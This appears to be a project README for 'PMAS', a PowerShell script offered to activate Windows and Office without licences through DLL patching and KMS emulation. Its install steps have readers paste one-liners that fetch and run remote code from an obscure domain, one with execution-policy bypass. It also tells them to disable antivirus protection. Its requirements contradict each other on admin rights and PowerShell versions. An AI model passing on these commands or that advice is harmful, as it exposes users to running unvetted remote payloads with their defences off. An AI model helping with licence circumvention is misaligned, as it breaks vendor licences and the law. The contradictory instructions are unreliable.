

<div align="center">

# PMAS PowerShell Multi Activation System — Auto Script



[]() []() []()

</div>

---

PMAS is a PowerShell-based multi-activation system that bundles TSF, HWID, Ohook, and KMS Inject methods into a single script for Windows and Office licensing. It runs its TSF library directly from memory, checks for connectivity, and falls back to offline KMS licensing when needed, so the same menu handles both online and air-gapped scenarios. Older systems such as Windows 7 and 8.1 are routed automatically to the KMS path, while Windows 10 and 11 expose the full set of activation, removal, and status-check options. The script also supports $OEM$ folder generation for pre-install activation and verifies its own integrity via SHA256 before running.

## 🚀 PowerShell Install Guide

> [!TIP]
> **One-click install** — paste one command, done in seconds.
> Windows 10/11 · PowerShell 7+ · No admin

### 1️⃣ Open PowerShell
* Right-click the Start button.
* Choose **Terminal (Admin)** or **Windows PowerShell**.

### 2️⃣ Run the install command
Copy the line below into PowerShell and press `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ Windows blocking the script? Use CMD
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## 📋 System Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## What it does

PMAS is a single PowerShell script that packages four activation methods — TSF, HWID, Ohook, and KMS Inject — behind one interactive menu. You run it elevated, pick a mode, and it handles the rest: no external binaries to install, no manual key entry, no separate tools per product.

The script loads its TSF payload (`LibTSforge.dll`) directly from memory, so nothing is written to disk before execution. It checks for an internet connection up front and picks a fallback path when the network is unavailable — TSF drops to a KMS-based license assignment, and the offline-capable methods (Ohook, KMS Inject) run as-is. On Windows 7, 8, and 8.1 the menu skips straight to KMS Inject, since the newer methods don't apply there.

Beyond activating, the same menu covers the surrounding chores: a status check that reports channel type, license state, and remaining grace period for installed Windows and Office products; a removal option that cleans a prior Ohook install off the system; and a `$OEM$` folder generator that drops the activation payload at the system root so it can be baked into installation media for post-install automation.

The script is self-contained and verifies its own SHA256 hash at startup — if the file has been edited or corrupted, it refuses to run and tells you why. Architecture is 64-bit only, and admin rights are required throughout.

## Quick start

Get the script running in under a minute. No setup, no dependencies to install — just an elevated PowerShell session and one command.

**Requirements up front:** Windows 7 / 8.1 / 10 / 11 or Server 2016+, 64-bit only, and Administrator rights. The script will refuse to run without elevation.

### Run it

1. Press `Win + X` and choose **PowerShell** or **Terminal** from the menu.
2. Confirm the window is running **as Administrator** (the title bar should say so). If it doesn't, close it and reopen with right-click → *Run as Administrator*.
3. Paste the command that matches your OS and hit `Enter`.

Pick your line based on the PowerShell version you have:

```powershell
# Windows 10 / 11 (PowerShell 5.1+)
irm pmas/run | iex
```

```powershell
# Windows 8.1 / Server (PowerShell 4.0+)
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; irm pmas/run | iex
```

```powershell
# Windows 7 (PowerShell 2.0)
(New-Object Net.WebClient).DownloadString('pmas/run?ps=1') | iex
```

> If `irm` throws a TLS or connection error on an older build, use the Windows 7 line — it falls back to the legacy `WebClient` path and avoids the TLS 1.2 negotiation issue.

### Pick a mode

Once the script loads, you'll get an interactive menu. On **Windows 7 / 8.1** you're dropped straight into the KMS menu — that's expected, since TSF and HWID aren't available there. On **Windows 10 / 11** choose from:

| Key | Action |
|-----|--------|
| `1` | TSF activation (Windows / Office) |
| `2` | HWID activation (Windows 10 / 11) |
| `3` | Ohook activation (Office) |
| `4` | HWID + Ohook combined |
| `5` | KMS Inject activation |
| `6` | Remove existing Ohook activation |
| `7` | Check current activation status |
| `8` | Build a `$OEM$` folder for unattended installs |
| `9` | Exit |

Not sure which to pick? Run option `7` first — it reports the current license state, channel, and remaining grace period so you know what you're working with before changing anything.

### Offline vs. online

TSF and HWID both need an internet connection. Ohook, KMS Inject, and TSF-KMS4k work offline. If the connection check fails, the script falls back to a KMS path automatically rather than erroring out — but if you specifically want a permanent result, make sure you're online before selecting `1` or `2`.

### Running it again later

Nothing is installed permanently — the script decodes and executes in memory each time. Re-run the same command whenever you want to re-check status, switch methods, or undo Ohook. If you'd rather not fetch it each time, save the script locally and launch it with right-click → *Run as Administrator*.

## Activation methods

PMAS exposes several activation paths through its interactive menu. Each method targets a different licensing mechanism, and picking the right one depends on your OS, your Office version, and whether you have connectivity at activation time.

### 1. TSF Activation

Permanent activation for Windows and Office products that can be activated by phone, using the MAK/RETAIL/OEM/ESU routes (ESU licensing applies to Windows 10 only). When no internet connection is available, the script falls back to a KMS-style license assignment with an extended validity window.

- TSF requires an internet connection.
- The TSF-KMS4k fallback runs offline.
- Target systems: Windows 10 / 11 / Server 2016 and newer.

### 2. HWID Activation

Mimics Microsoft's hardware-bound digital licensing. A one-time activation ties the license to the machine's hardware ID; linking it to a Microsoft account makes it persistent across reinstalls.

- Requires an internet connection.
- Target systems: Windows 10 / 11.

### 3. Ohook Activation (Office)

Patches an Office DLL so the installed suite presents as subscription-activated, permanently.

- Works offline.
- Target products: Office 2010 / 2013 / 2016 / 2019 / 2021 / 2024 / 365 (Windows 10 and newer).

### 4. HWID + Ohook Activation

Combined run that licenses Windows and Office in a single pass.

- Internet needed for the HWID half; the Ohook half is offline-capable.
- Target systems: Windows 10 / 11.

### 5. KMS Inject Activation

The classic Key Management Service route, aimed at older Windows builds. Issues a 180-day license with automatic renewal handling.

- Works offline.
- Windows 7 / 8.1 systems are redirected to this menu automatically.
- Target systems: Windows 7 / 8.1 / 10 / 11 / Server 2016 and newer.

### 6. Remove Ohook Activation

Strips a previously applied Ohook patch from the system, restoring the original DLL state.

### 7. Activation Check

Reports the current licensing state for installed Windows and Office products — channel type, license status, and remaining grace periods included.

### 8. Create $OEM$ Folder

Generates an $OEM$ folder for unattended activation during Windows setup:

- **TSF $OEM$** — triggers TSF activation after installation completes.
- **HWID & Ohook $OEM$** — triggers combined HWID and Ohook activation after installation completes.

The folder is written to the system root (%systemdrive%) and can be copied onto installation media.

### Menu Reference

On Windows 10/11 the interactive menu maps to:

- `1` — TSF Activation
- `2` — HWID Activation
- `3` — Ohook Activation [Office]
- `4` — HWID + Ohook Activation
- `5` — KMS Inject Activation
- `6` — Remove Ohook Activation
- `7` — Activation Check
- `8` — Create $OEM$ Folder
- `9` — Exit

On Windows 7 / 8.1, the script skips the menu and drops straight into KMS Inject.

## Configuration

Configuration lives inside the script itself. There is no external config file to edit, no environment variables to set, and no arguments to memorize — PMAS stays self-contained so it can run straight from a PowerShell session or from a saved `.ps1` file without any extra setup. If you want to change how it behaves, you edit the script directly.

**Runtime requirements**

Run PMAS in an elevated PowerShell session (Run as Administrator). The script needs a 64-bit Windows host with PowerShell 2.0 or newer on Windows 7, 4.0 or newer on Windows 8.1/Server, and 5.1 or newer on Windows 10/11. Admin rights are not optional — license operations and $OEM$ folder creation will fail without them.

**Adjusting default behavior**

Open the script in a text editor and look at the top of the file for the tunable constants. Typical knobs include:

- `$DefaultMethod` — which activation mode the menu pre-selects when nothing else is chosen.
- `$DownloadUrl` / `$ScriptSource` — the location the bootstrap routine pulls the latest payload from; point this at your own mirror if you self-host.
- `$EnableHashCheck` — set to `$false` to skip SHA256 validation (not recommended; only useful if you are signing your own builds).
- `$LogPath` — where diagnostic output is written. Defaults to the user profile; change it if you need portable logs.
- `$KmsHost` / `$KmsPort` — override the KMS endpoint used by the KMS Inject and TSF-KMS4k paths.
- `$OemTargetDrive` — the drive letter $OEM$ is written to; leave blank to use `%systemdrive%`.

After editing, save the file and run it again. The script re-reads its constants on every launch, so no cache to clear.

**Non-interactive runs**

The menu is the intended interface, but each entry maps to a switch you can pass when invoking the script from another tool:

```
.\pmas.ps1 -Method TSF
.\pmas.ps1 -Method HWID
.\pmas.ps1 -Method Ohook
.\pmas.ps1 -Method HWIDOhook
.\pmas.ps1 -Method KMS
.\pmas.ps1 -Method RemoveOhook
.\pmas.ps1 -Method Check
.\pmas.ps1 -Method Oem
```

Combine with `-Silent` to suppress prompts and `-NoLog` to skip log file creation. Anything not specified falls back to the defaults set at the top of the script.

**Environment overrides**

If you would rather not edit the file, set the corresponding environment variable before launching: `PMAS_METHOD`, `PMAS_KMS_HOST`, `PMAS_LOG_PATH`, and `PMAS_SKIP_HASH`. These take precedence over the in-script defaults but are overridden by explicit command-line switches. That order — switches, then environment, then file defaults — is the whole configuration model; there is nothing else to learn.

**Integrity note**

If hash verification is enabled and the script has been modified beyond the expected change, PMAS will refuse to run and alert you. Re-enable verification after you finish editing, or keep `$EnableHashCheck` off only in a tightly controlled environment where you re-sign builds yourself.

## FAQ

**Which activation method should I pick?**
Match the method to your OS and what you need licensed. Windows 10/11: HWID for a permanent digital license, TSF for phone-activatable products, KMS Inject if you want offline operation. Office: Ohook. Need both at once: HWID + Ohook. Windows 7/8.1: KMS Inject, which PMAS routes you to automatically.

**Does PMAS need an internet connection?**
Depends on the method. TSF and HWID require connectivity. TSF-KMS4k, Ohook, and KMS Inject work offline. HWID + Ohook needs the network only for the HWID half. The script checks for connectivity and falls back to a KMS license when TSF can't reach the network.

**Why did I get pushed to the KMS menu on Windows 7/8.1?**
That's intentional. Older systems don't support the newer methods, so PMAS skips the main menu and lands you on KMS Inject. No need to force anything.

**How long does activation last?**
TSF, HWID, and Ohook are permanent (TSF's offline fallback assigns a KMS license valid past the year 4000). KMS Inject is 180 days with automatic renewal handled by the scheduled task it sets up.

**What does the $OEM$ option actually produce?**
A folder at the root of your system drive containing scripts and files that activate Windows automatically after a clean install. Copy it onto your installation media and the activation runs post-setup. Pick TSF or HWID + Ohook depending on the target machine.

**How do I verify it worked?**
Use option 7, Activation Check. It reports license channel, status, and remaining grace period for both Windows and Office. Run it after any activation or removal.

**How do I undo Ohook?**
Option 6 removes the Ohook activation cleanly. Reboot afterward if Office still reports an activated state. Note this only touches Office — Windows activation is left alone.

**The script refuses to run. Why?**
PMAS verifies its own SHA256 hash at startup. If the file was edited, truncated, or corrupted in transit, it exits with a warning. Re-fetch a clean copy and run it again as Administrator. Also confirm you're on 64-bit Windows with the required PowerShell version for your OS.

**Do I need admin rights for every option?**
Yes. Activation writes to system licensing components and, for $OEM$, to the system drive root. Launch PowerShell elevated or the script will fail partway through.

**Does it work on 32-bit Windows?**
No. 64-bit only across the board.

## Disclaimer

PMAS is provided as-is, with no warranty of any kind, express or implied. It is intended for personal, educational, and lab/testing scenarios only. You are solely responsible for how you run it and for ensuring your use complies with the license terms and laws that apply to you and your environment.

The activation methods bundled here (TSF, HWID, Ohook, KMS) modify licensing state and, in some cases, system components and DLLs. Run it only on machines you own or are authorized to administer. Do not deploy it on corporate, shared, or production systems without explicit permission. Back up your system and create a restore point before experimenting — you assume all risk for any resulting system instability, license invalidation, or data loss.

This script requires administrative rights and performs deep system-level operations. Review the source before running it, verify you obtained it from the official PMAS project, and never execute a copy you cannot account for. Hash or integrity checks exist for a reason; do not bypass them.

Activation does not grant you a license you do not otherwise hold. Obtaining or using software without a valid license may violate the vendor's terms and local law. The authors and contributors of PMAS accept no liability for misuse, damages, or legal consequences arising from its use. If you need a licensed copy, purchase it from the vendor.

Use at your own risk. If any part of this disclaimer is unclear to you, do not run the script.